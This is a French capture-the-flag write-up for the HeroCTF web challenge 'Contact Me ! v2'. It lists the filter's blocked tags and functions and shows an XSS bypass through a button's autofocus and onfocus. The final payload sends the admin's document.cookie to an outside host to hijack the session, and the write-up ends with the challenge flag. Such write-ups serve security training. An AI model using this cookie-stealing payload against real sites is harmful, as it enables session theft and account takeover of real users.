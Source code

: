 # Contact Me ! v2

### Catégorie

Web

### Description

Le petit développeur a bien compris la faille et a appliqué un patch.
Montrez que lui que, malgré ses efforts, ce n'est pas suffisant !

http://challs.heroctf.fr:3011/

Format : Hero{flag}

### Auteur

Worty

### Note de l'auteur

A noter qu'il existe plusieurs solutions pour flag ce challenge, ici, je n'en présenterai qu'une seule.

### Solution

Ici, nous savons que nous avons à faire à une faille de type XSS.<br/>
En revanche, l'admin a mis en place des restrictions pour se prévenir de celle-ci.

Ici, il va falloir procéder à des tests pour savoir ce que l'on a le droit de faire ou non:<br/>
- La balise "script" est interdite<br/>
- La balise "img" est interdite<br/>
- La balise "iframe" est interdite<br/>
- La balise "body" est interdite<br/>
- La balise "span" est interdite<br/>
- L'évènement "onerror" est interdit<br/>
- L'évènement "onload" est interdit<br/>
- Le caractère "+" est interdit<br/>
- La chaîne de caractère "XML" est interdite<br/>
- La fonction "open" est interdite<br/>
- La fonction "eval" est interdite<br/>
- La fonction "atob" est interdite<br/>
A noter que le script ne prend pas en compte la casse, donc même écrire ScRIpt ne marchera pas pour bypass la restriction.

Maintenant que nous savons tout ce qui est interdit, qu'est ce qu'il nous reste?<br/>
Il reste la balise <button>, l'attribut autofocus et onfocus.<br/>
"autofocus" va permettre de passer la balise <button> en focus, et donc, avec l'évènement onfocus, on va pouvoir exécuter du code javascript!

Payload : '<button autofocus onfocus="alert(1)">', et magie, on a une belle alert qui se lancer quand la page se réactualise!

Il y a maintenant un autre problème, le caractère "+" est aussi interdit, on va devoir utiliser la fonction concat() de javascript.<br/>
Cette fonction s'applique aux objets de type String. Exemple "a".contact("b") donnera "ab".<br/>
C'est donc comme ceci que nous allons concaténer les cookies de l'admin à notre payload !.<br/>

Payload final : '<button autofocus onfocus="window.location='https://worty.alwaysdata.net/cookies.php?c='.concat(document.cookie)" />'

Pareil que pour le challenge précédent, je me connecte sur http://challs.heroctf.fr:3011/admin.php, je change mon cookie de session par celui de l'administrateur que j'ai récupéré, et j'actualise!

### Flag

Hero{htmlspecialchars_m4y_b3_y0ur_fr13nd_!!}